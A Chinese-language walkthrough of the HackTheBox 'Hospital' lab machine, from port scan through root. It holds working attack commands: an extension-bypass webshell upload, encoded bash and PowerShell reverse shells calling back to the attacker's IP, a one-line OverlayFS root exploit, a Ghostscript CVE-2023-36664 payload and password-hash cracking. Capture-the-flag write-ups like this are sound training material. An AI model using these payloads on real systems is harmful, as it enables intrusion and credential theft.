



## Summary

*`OS: Windows` `Difficulty: Medium`*

xxx

### Relevant Skills

- nmap
- 子域枚举
- sudo提权
- ……

### Attack Path Overview

{ width='450' }


## External Recon - nmap

自用扫描脚本：[工作流](https://github.com/TimeLess613/workflow-scan4HTB/blob/main/workflow-scan4HTB.sh)  
`curl -s https://raw.githubusercontent.com/TimeLess613/workflow-scan4HTB/main/workflow-scan4HTB.sh | sudo bash -s <HTB-IP>`

开放端口：
```
PORT     STATE SERVICE           VERSION
22/tcp   open  ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-11-19 13:10:31Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
1801/tcp open  msmq?
2103/tcp open  msrpc             Microsoft Windows RPC
2105/tcp open  msrpc             Microsoft Windows RPC
2107/tcp open  msrpc             Microsoft Windows RPC
2179/tcp open  vmrdp?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
5985/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
6159/tcp open  msrpc             Microsoft Windows RPC
6404/tcp open  msrpc             Microsoft Windows RPC
6406/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
6407/tcp open  msrpc             Microsoft Windows RPC
6409/tcp open  msrpc             Microsoft Windows RPC
6613/tcp open  msrpc             Microsoft Windows RPC
6633/tcp open  msrpc             Microsoft Windows RPC
8080/tcp open  http              Apache httpd 2.4.55 ((Ubuntu))
9389/tcp open  mc-nmf            .NET Message Framing
```


## 攻击路径规划·漏洞分析

常规Windows域控靶机。基本思路同[HTB-Authority](./HTB-Authority.md#_2)的。即SMB——>WEB (——>LDAP——>RPC)。


## SMB - 匿名

匿名无法列出共享。想着可能是端口问题于是顺便尝试了139端口，结果也不行：
```bash
└─$ smbclient -L //10.10.11.241 -N              
session setup failed: NT_STATUS_ACCESS_DENIED

└─$ smbclient -L //10.10.11.241 -N -p 139
do_connect: Connection to 10.10.11.241 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
```


## 443端口 - 无凭据

访问 `https://10.10.11.241/`，是一个“Hospital Webmail”的登录界面。

- robots.txt：无
- .git/config：无
- 网页信息：无特别发现
- 网页功能：登录界面
- 网页源码：无特别发现
- 子域枚举：无域名
- 目录枚举：尝试 `gobuster dir -u https://10.10.11.241 -w <wordlists> -k` 报错。


## 8080端口

注意到8080端口是个Apache HTTP服务，访问 `http://10.10.11.241:8080`，也是一个登录界面。

- robots.txt：无
- .git/config：无
- 网页信息：无特别发现
- 网页功能：登录界面。有个注册按钮
- 网页源码：无特别发现
- 子域枚举：无域名
- 目录枚举：有 `uploads` 等文件夹。直接访问响应403

443端口算作主站的话，这个8080端口的旁站估计是个突破口。

### 研究网页功能 - 文件上传

注册账号后可以登陆。显示一个上传界面。默认只能上传图片。估计可以绕过上传webshell？


开启Burp拦截，更改webshell文件的扩展名以.jpg结尾，然后拦截请求包删掉.jpg。

- 上传kali自带的php反弹shell。结果报错。
- 试了下[这个webshell](https://github.com/flozz/p0wny-shell)，扩展名改为 `phar`。成功上传。

#### 关于空字节绕过

`\x00` 空字节绕过能显示上传成功，但是无法用URL访问。后来getshell进去之后看到了这个文件上传被保存为 `x00.jpg` 了。看了眼 `upload.php` 的代码也没能理解为什么文件名取了 `x00` 的部分……
```php
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {

    if (isset($_FILES['image'])) {
        $blockedExtensions = ['php', 'php1', 'php2', 'php3', 'php4', 'php5', 'php6', 'php7', 'php8', 'phtml', 'html', 'aspx', 'asp'];
        $uploadDirectory = 'uploads/';
        $uploadedFile = $uploadDirectory . basename($_FILES['image']['name']);
        $fileExtension = strtolower(pathinfo($uploadedFile, PATHINFO_EXTENSION));

        if (!in_array($fileExtension, $blockedExtensions)) {
            if (move_uploaded_file($_FILES['image']['tmp_name'], $uploadedFile)) {
                header("Location: /success.php");
                exit;
            } else {
                header("Location: /failed.php");
                exit;
            }
        } else {
            header("Location: /failed.php");
            exit;
        }
    }
}
?>
```


## Initial Access

成功访问上传的phar格式的shell，运行一个反弹shell命令 `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zNi80NDQ2IDA+JjE= |base64 -d |bash` 之后再开始探索：
```bash
www-data@webserver:/var/www/html/uploads$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@webserver:/var/www/html/uploads$ w
 11:05:51 up 3 min,  0 user,  load average: 0.05, 0.18, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
www-data@webserver:/var/www/html/uploads$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:15:5d:00:8a:02 brd ff:ff:ff:ff:ff:ff
    inet 192.168.5.2/24 brd 192.168.5.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::215:5dff:fe00:8a02/64 scope link 
       valid_lft forever preferred_lft forever
www-data@webserver:/var/www/html/uploads$ netstat -anot
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0    144 192.168.5.2:45198       10.10.14.10:4444        ESTABLISHED on (0.28/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::80                   :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 192.168.5.2:80          10.10.14.8:36816        TIME_WAIT   timewait (0.00/0/0)
tcp6       0      0 192.168.5.2:80          10.10.14.10:48350       ESTABLISHED keepalive (7129.32/0/0)
tcp6       0      0 192.168.5.2:80          10.10.14.8:51144        TIME_WAIT   timewait (19.58/0/0)
tcp6       0      0 192.168.5.2:80          10.10.14.8:51202        TIME_WAIT   timewait (12.21/0/0)

www-data@webserver:/var/www/html/uploads$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
 (...)
drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:109:116:MySQL Server,,,:/nonexistent:/bin/false
```

可以发现进来不是靶机标的Windows，且网段不是靶机网段。估计是什么容器？  
有个本地3306端口以及mysql用户。

### MySQL凭据泄漏

发现mysql凭据，于是进数据库：
```bash
www-data@webserver:/var/www/html$ cat .htaccess 
AddType application/x-httpd-php .phar
www-data@webserver:/var/www/html$ cat config.php 
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'my$qls3rv1c3!');
define('DB_NAME', 'hospital');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>


MariaDB [hospital]> show tables;
+--------------------+
| Tables_in_hospital |
+--------------------+
| users              |
+--------------------+
1 row in set (0.000 sec)

MariaDB [hospital]> select * from users;
+----+----------+--------------------------------------------------------------+---------------------+
| id | username | password                                                     | created_at          |
+----+----------+--------------------------------------------------------------+---------------------+
|  1 | admin    | $2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2 | 2023-09-21 14:46:04 |
|  2 | patient  | $2y$10$a.lNstD7JdiNYxEepKf1/OZ5EM5wngYrf.m5RxXCgSud7MVU6/tgO | 2023-09-21 15:35:11 |
|  3 | testasdf | $2y$10$CbOJxZ3trYHvHJ0dqCTFNeNGsQmY8jiSDLW3xVxTHgnZmZiRiZBJe | 2023-11-25 11:03:40 |
+----+----------+--------------------------------------------------------------+---------------------+
3 rows in set (0.000 sec)
```

发现数据库凭据，整理后JTR暴破：
```bash
└─$ fgrep 09-21 users.txt | awk -F'|' '{print $3 $4}' | awk '{print $1,$2}' | tr ' ' ':' > creds.txt

└─$ cat creds.txt
admin:$2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2
patient:$2y$10$a.lNstD7JdiNYxEepKf1/OZ5EM5wngYrf.m5RxXCgSud7MVU6/tgO

└─$ john --wordlist=/usr/share/wordlists/rockyou.txt  creds.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
123456           (admin) 
```

莫名其妙一个凭据，似乎只能用来登陆8080端口那个网页，登录后一样是只能上传图片。没发现其他能用的地方……兔子洞？

### Linux容器 - OverlayFS提权

```bash
www-data@webserver:/var/www/html$ uname -a
Linux webserver 5.19.0-35-generic #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

搜了下版本，发现这个文章：
> <https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/>

```bash
ww-data@webserver:/var/www/html/uploads$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash -i")'
root@webserver:/var/www/html/uploads# id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

#### drwilliams用户凭据

提权后就收集 `passwd` 和 `shadow` 试试能否破解：
```bash
root@webserver:/home/drwilliams# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
 (...)
drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:109:116:MySQL Server,,,:/nonexistent:/bin/false

root@webserver:/home/drwilliams# cat /etc/shadow
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::
 (...)
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
lxd:!:19612::::::
mysql:!:19620::::::

└─$ unshadow passwd.txt shadow.txt | fgrep $
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:0:0:root:/root:/bin/bash
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash

└─$ unshadow passwd.txt shadow.txt | fgrep $ > unshadow.txt

└─$ john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qwe123!@#        (drwilliams)     
1g 0:00:00:37 DONE (2023-12-15 01:34) 0.02675g/s 5740p/s 5740c/s 5740C/s raycharles..pl@yboy
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

几经辗转，最终又获得一个凭据：`drwilliams:qwe123!@#`。那么重新出发。


## SMB - drwilliams用户

```bash
└─$ smbclient -L //10.10.11.241 -U drwilliams
Password for [WORKGROUP\drwilliams]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.241 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available


smb: \hospital.htb\> ls DfsrPrivate\
NT_STATUS_ACCESS_DENIED listing \hospital.htb\DfsrPrivate\
smb: \hospital.htb\> cd Policies\
smb: \hospital.htb\Policies\> ls
  .                                   D        0  Tue Sep  5 15:57:22 2023
  ..                                  D        0  Tue Sep  5 15:57:22 2023
  {31B2F340-016D-11D2-945F-00C04FB984F9}      D        0  Tue Sep  5 15:57:22 2023
  {6AC1786C-016F-11D2-945F-00C04fB984F9}      D        0  Tue Sep  5 15:57:22 2023

                9640703 blocks of size 4096. 996831 blocks available
smb: \hospital.htb\Policies\> ls {31B2F340-016D-11D2-945F-00C04FB984F9}\
  .                                   D        0  Tue Sep  5 15:57:22 2023
  ..                                  D        0  Tue Sep  5 15:57:22 2023
  GPT.INI                             A       22  Fri Sep  8 13:04:34 2023
  MACHINE                             D        0  Tue Sep  5 18:47:53 2023
  USER                                D        0  Tue Sep  5 15:57:22 2023

                9640703 blocks of size 4096. 996831 blocks available
smb: \hospital.htb\Policies\> ls {6AC1786C-016F-11D2-945F-00C04fB984F9}\
  .                                   D        0  Tue Sep  5 15:57:22 2023
  ..                                  D        0  Tue Sep  5 15:57:22 2023
  GPT.INI                             A       22  Fri Oct 27 12:56:38 2023
  MACHINE                             D        0  Tue Sep  5 15:57:22 2023
  USER                                D        0  Tue Sep  5 15:57:22 2023

                9640703 blocks of size 4096. 996831 blocks available
```

没什么特殊发现。


## 5985端口 - drwilliams用户

姑且试一下WinRM：`evil-winrm -i 10.10.11.241 -u drwilliams -p 'qwe123!@#'`。登录失败。


## 443端口 - drwilliams用户

用drwilliams用户凭据成功登陆。不过进去后老是有如下报错：

> Server Error: Empty startup greeting (hospital.htb:143)  
> Connection to storage server failed.

卡了一阵之后怀疑是靶机有问题，于是重启靶机。

### PoC (CVE-2023-36664)

再次登录，正常显示webmail界面了：


有一封邮件，联系人为 `drbrown@hospital.htb`。  
谷歌一下邮件关键字 `ghostscript eps exploit`，发现下面PoC。

> <https://vsociety.medium.com/cve-2023-36664-command-injection-with-ghostscript-poc-exploit-97c1badce0af>  
> <https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection>

生成payload文件后回信：
```bash
└─$ python CVE_2023_36664_exploit.py -x eps -f powers -g -p 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAwACIALAA0ADQANAA1ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=='
[+] Generated EPS payload file: powers.eps
```


## flag: user

成功接受反弹shell：
```bash
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.241] 18176

PS C:\Users\drbrown.HOSPITAL\Documents> whoami     
hospital\drbrown

PS C:\Users\drbrown.HOSPITAL\desktop> cat user.txt
4c19 (...) d221
```


## Windows主机探索

进去后发现一组凭据（`hospital\drbrown:chr!$br0wn`），应该就是当前用户的：
```powershell
PS C:\Users\drbrown.HOSPITAL\documents> cat ghostscript.bat
@echo off
set filename=%~1
powershell -command "$p = convertto-securestring 'chr!$br0wn' -asplain -force;$c = new-object system.management.automation.pscredential('hospital\drbrown', $p);Invoke-Command -ComputerName dc -Credential $c -ScriptBlock { cmd.exe /c "C:\Program` Files\gs\gs10.01.1\bin\gswin64c.exe" -dNOSAFER "C:\Users\drbrown.HOSPITAL\Downloads\%filename%" }"
```

接着探索，无果：
```powershell
PS C:\Users\drbrown.HOSPITAL\Favorites> ipconfig

Windows IP Configuration


Ethernet adapter vEthernet (Switch01):

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::3488:527f:9c75:ed51%14
   IPv4 Address. . . . . . . . . . . : 192.168.5.1
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::75
   IPv6 Address. . . . . . . . . . . : dead:beef::5f9a:6cb7:7525:28fc
   Link-local IPv6 Address . . . . . : fe80::e160:a175:39d3:fe07%12
   IPv4 Address. . . . . . . . . . . : 10.10.11.241
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:933%12
                                       10.10.10.2


PS C:\xampp> cat passwords.txt
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 

3) Mercury (not in the USB & lite version): 

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords).
```


## Privilege Escalation

想起来有RDP端口开放，Windows还是GUI好操作于是RDP连接，进入后发现有个selenium脚本在执行。以Administrator凭据登陆Webmail网页。  
静静地看他操作，登录的瞬间IE弹出提示问要不要保存凭据……当然要啊！我已经感觉得应该没几个人是按照我这个路线提权的了！



*后来试了下关掉powershell会自动重来，所以这种路线也是可以重现的。以及即使没有用浏览器保存凭据，也可以在selenium要输入密码的时候将鼠标点击到其他地方（如用户名输入框），也能看到输入的密码是什么。*



最后在凭据管理器中获得 `Administrator:Th3B3stH0sp1t4l9786!`。


## flag: root

最后RDP登陆Administrator获得root flag：
`xfreerdp /cert:ignore /v:10.10.11.241 /u:Administrator /p:'Th3B3stH0sp1t4l9786!'`




---

## 总结·后记

2023/11/25

有点不太明白为什么drwilliams用户不能用WinRM登陆。

### 关于立足的Linux

最终提权后发现这个文件，所以最开始立足是进了个Linux的虚拟机：

```powershell title="vm_comp.ps1"
$vm_name = "LinuxServer"
get-vm -name $vm_name | stop-vm -force
Set-VMProcessor $vm_name -CompatibilityForMigrationEnabled $true
start-vm -name $vm_name 
```